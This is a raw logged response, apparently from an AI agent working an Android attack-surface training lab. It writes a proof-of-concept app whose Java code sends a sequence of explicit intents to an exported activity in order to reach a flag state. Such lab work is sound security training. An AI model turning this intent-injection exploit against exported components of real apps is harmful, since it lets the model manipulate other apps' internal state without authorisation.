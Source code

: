 --- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text='🧠 Analytical Reasoning:\n*   **1. Code Comprehension:** This is the `AndroidManifest.xml` for the malicious PoC application. It declares a single activity, `MaliciousFlag4PoC`, and sets it as the main launcher activity. The `android:exported="true"` attribute is important as it allows other applications (including the target app) to interact with this activity, though in this case, the malicious app is initiating the interaction.\n*   **2. Threat Modeling (Sources & Sinks):**\n    *   **Sources:** N/A for this manifest file.\n    *   **Sinks:** N/A for this manifest file.\n*   **3. Data Flow Tracing:** N/A for this manifest file.\n*   **4. Security Control Analysis:** N/A for this manifest file.\n*   **5. Vulnerability Hypothesis:** The manifest correctly sets up a basic Android application structure for the PoC. The next step is to create the Java source code for `MaliciousFlag4PoC.java` that will send the sequence of intents to `Flag4Activity`.\n\nMy PoC will be a small, self-contained malicious Android application that I will write to a file. It will have its own `AndroidManifest.xml` and Java source file. It will target an exported component (Activity, Service, etc.) of the main application.\n\n'), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\nimport android.widget.Toast;\n\npublic class MaliciousFlag4PoC extends Activity {\n\n    private static final String TAG = "MaliciousFlag4PoC";\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n        setContentView(R.layout.activity_main); // Assuming a simple layout exists or can be ignored for PoC\n\n        Log.d(TAG, "MaliciousFlag4PoC started.");\n        Toast.makeText(this, "Attempting to solve Flag 4...", Toast.LENGTH_LONG).show();\n\n        try {\n            // Step 1: Transition to PREPARE state\n            Intent prepareIntent = new Intent();\n            prepareIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            prepareIntent.setAction("PREPARE_ACTION");\n            startActivity(prepareIntent);\n            Log.d(TAG, "Sent PREPARE_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 2: Transition to BUILD state\n            Intent buildIntent = new Intent();\n            buildIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            buildIntent.setAction("BUILD_ACTION");\n            startActivity(buildIntent);\n            Log.d(TAG, "Sent BUILD_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 3: Transition to GET_FLAG state\n            Intent getFlagIntent = new Intent();\n            getFlagIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            getFlagIntent.setAction("GET_FLAG_ACTION");\n            startActivity(getFlagIntent);\n            Log.d(TAG, "Sent GET_FLAG_ACTION intent.");\n            Thread.sleep(1000); // Give target activity time to process\n\n            // Step 4: Trigger success(this) - any intent will do\n            Intent triggerSuccessIntent = new Intent();\n            triggerSuccessIntent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n            // No specific action needed, just sending an intent\n            startActivity(triggerSuccessIntent);\n            Log.d(TAG, "Sent final trigger intent to call success(this).");\n            Toast.makeText(this, "Flag 4 exploit sequence sent. Check target app for flag.", Toast.LENGTH_LONG).show();\n\n        } catch (Exception e) {\n            Log.e(TAG, "Error during exploit sequence: " + e.getMessage());\n            Toast.makeText(this, "Error: " + e.getMessage(), Toast.LENGTH_LONG).show();\n        }\n    }\n}\n', 'file_path': 'MaliciousFlag4PoC.java'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=None, grounding_metadata=None, index=0, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='models/gemini-2.5-flash-preview-05-20', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=14662)], cached_content_token_count=14662, candidates_token_count=1088, candidates_tokens_details=None, prompt_token_count=16051, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=16051)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=17139, traffic_type=None), automatic_function_calling_history=[], parsed=None)
